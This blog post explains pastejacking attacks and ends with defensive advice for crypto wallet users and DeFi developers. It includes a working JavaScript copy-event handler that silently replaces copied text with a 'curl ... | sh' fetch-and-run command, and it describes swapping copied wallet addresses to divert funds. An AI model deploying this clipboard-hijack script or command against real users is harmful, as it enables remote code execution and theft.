```yaml
---
layout: post
title: 'Pastejacking Smart Contracts: Replacing Wallet Addresses to Steal Data'
categories: [blog]
---
```


The last several years have brought incredible gains in the number of cyberattacks waged. These attacks entail a variety of exploits, with some using methods as simple as social engineering. Human behavior is often the weakest link, and a particular javascript exploit takes advantage of trust in a computer’s copy-and-paste functionality.  This form of attack, commonly referred to as [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/), can fit into many different cyberattack campaigns. This attack takes advantage of one of the most common user interactions with a computer.

Pastejacking attacks exploit temporary storage memory by replacing copied data stored in device memory with different, often malicious, data. This exploit may take the form of a client-side or a server-side attack. 

Server-side pastejacking attacks may fit within a software supply chain attack: attackers can manipulate a compromised entity to attack downstream users or clients. 
Using methods such as [cross-site scripting (XSS) attacks](https://owasp.org/www-community/attacks/DOM_Based_XSS), an attacker can wage client-side pastejacking attacks, which can be especially effective if targeting developers. Cyberattacks waged on developers often have a high return on investment because capturing developer credentials affords an attacker a significant amount of lateral movement throughout an organization.

## How Javascript Pastejacking Works

For demonstration purposes, let’s take a look at the following Javascript code snippet:
```
<script>
document.getElementById('copied-text').addEventListener('copy', 
function(e) {
    e.clipboardData.setData('text/plain', 
        'curl https://forkbomb.io/shadowrealm | sh\n'
    );
    e.preventDefault();
});
</script>
```

Attackers may execute this code through various means; this attack may be waged on an organization through a form of code tampering or used on individual users through a client-side injection attack.

## Using Pastejacking to Attack Developers

Let’s say a junior programmer is attempting to utilize a code snippet from StackOverflow, which is not an unusual scenario that most software engineers have done at some point in their career. A malicious entity wages an attack against users trying to copy and paste a code snippet from the web browser into their terminal. 

The javascript function as defined above replaces the copied text within the clipboard, thus overriding the in-memory data and replacing it with:  
```
curl https://forkbomb.io/shadowrealm | sh\n
``` 
This string is a curl command that navigates a user to the URL [https://forkbomb.io/shadowrealm](https://forkbomb.io/shadowrealm/), which in this case is a striking yet graceful warning to users. 

Because the pasted snippet includes the string sh\n, the command runs immediately as if the user had manually pressed the return key, thus preventing a user from realizing what is happening until the attack is underway. 

This form of attack can be hazardous as this can be a form of [targeting developers](https://cycode.com/blog/why-developers-are-hackers-new-targets-and-what-to-do-about-it/) who often have elevated credentials. Malicious actors may use a pastejacking attack within systems that do not adhere to principles of least privilege. Developer credentials often allow escalated privileges to accelerate developer velocity. Allowing for greater access within a development ecosystem reduces security between components, thus permitting lateral movement that can give an attacker full access to an organization’s data. This can allow attackers to perform data exfiltration or leak source code; in either case, this will be devastating for an organization’s reputation and finances. 

## Using Pastejacking to Attack Crypto Wallets

More nefarious, if subtle, applications of this technique exist. Let’s consider crypto wallet addresses. These addresses are 26-35 characters long and consist of alphanumeric values. This address is often copied and pasted from one application to another to send crypto assets from one wallet to another. This copy and paste pattern provides a window of opportunity for attackers to wage a client-side injection attack utilizing such a script as defined above. 

Metamask is a popular crypto wallet commonly used for NFT transactions and blockchain applications. This wallet provides convenience to users by existing both in-browser and as a Google Chrome extension. One of the most convenient features is the fact that users can easily copy their crypto wallet address with a single click:

![pastejacking-crypto-wallets-forkbomb-address-theft-defi](../../../../../assets/image/pastejacking-crypto-wallets-forkbomb-address-theft-defi.png){:class="img-responsive"}

You can probably see where this is going. An insecure website, or nefarious browser extension, running this javascript copy-injection could hijack a user’s transaction by replacing the presented contract address text with another one, such as the attacker’s address, thus redirecting funds to their wallet permanently.

In the case of Metamask, tools such as [LavaMoat](https://github.com/LavaMoat/LavaMoat) are used to prevent software supply chain attacks from being deployed directly on its user base. However, as long as gaps within DevSecOps exist, attackers will find a way to wage attacks on users. Other means of attack, such as cross-site scripting attacks, are still viable pathways to reach individual users. 

## Preventing Crypto Theft 
As users of defi software, we are ultimaly responsible for our own financial safety. We advice several tips to mitigate the risk of crypto theft through pastejacking:
- Always visually inspect the transaction page in MetaMask, or your preferred client before running every transaction. 
- At least double/triple check the first 4 characters of the contract to see that they match up.
- Investigate suspicious contracts, especially if there is high outflow to another contract address.
- If you do a lot of business on ethereum, use services like ENS to map a trusted domain name to your contract address

Unfortunately if you have fallen victim to smart contract fraud, there is little recourse in remediation other than to continue using the platform using the guidance laid out in this post and exhibiting extreme caution when handling any amount of money/value you intend to preserve.

## Key Learnings for Defi Developers

Just like the early stages of Web 1.0 and Web 2.0, underscoring security and trust within Web 3.0 will be the key to its widespread adoption.  The authentication and origination benefits that wallets such as MetaMask provide are compelling, however, they must be implemented with security in mind. For decentralized service providers, steps need to be taken to prevent code tampering, avoid unsafe development prctices, and protect those using the service.

